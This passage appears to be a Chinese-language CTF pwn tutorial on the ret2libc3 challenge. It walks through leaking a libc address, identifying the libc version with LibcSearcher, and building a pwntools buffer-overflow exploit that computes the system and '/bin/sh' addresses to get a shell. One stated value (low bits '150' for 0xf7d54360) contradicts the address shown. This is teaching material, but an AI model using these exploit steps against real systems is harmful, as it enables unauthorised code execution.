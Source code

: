 然后，我们需要获取 libc 的版本才能得到 libc 基地址。如何能够用一个函数真实地址得到版本或者基地址呢？

aslr 技术，是地址随机化，虽然是地址随机化，但低十二位是不变的，因为需要内存页对齐，puts 函数的真实地址 0xf7d54360 的低十二位是 150

可以根据后十二位查到这个函数所在的 libc 的版本：[libc\_search](https://libc.blukat.me/)

找到了很多各版本！那就只能多试一下！或者将上面的程序重新运行一下，找\_\_libc\_start\_main 的真实地址

```plain
puts_got_addr = e.got['puts']
#改成
puts_got_addr = e.got['__libc_start_main']
#其他的不需要动，当然可以更改变量名称
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 76030
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7dc3550
[*] Stopped process './ret2libc3' (pid 76030)
```

这个网站再查询一下，变成 2 条结果了，不过这两条结果的偏移量是一样了 (不贴图了)

接下来根据公式得到了 system 函数的偏移量和/bin/sh 的偏移量 (即 str\_bin\_sh)，构造 payload，拿到 shell

手工太麻烦了，我们使用工具：[LibcSearcher](https://github.com/lieanu/LibcSearcher)

安装：

```plain
git clone https://github.com/lieanu/LibcSearcher.git
cd LibcSearcher
python setup.py develop
```

使用查看 readme

构造最终 exp（这里选择了找\_\_libc\_start\_main 真实地址）

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')
context.log_level = 'debug'

main_got_addr = e.got['__libc_start_main']   
puts_plt_addr = e.plt['puts']  
main = e.symbols['main']        

payload = flat(['A' * 112, puts_plt_addr, main, main_got_addr])

p.sendlineafter('Can you find it !?', payload)  

main_rel_addr = u32(p.recv()[0:4])  
print hex(main_rel_addr)

libc = LibcSearcher('__libc_start_main', main_rel_addr)
libcbase = main_rel_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print hex(binsh_addr)
```
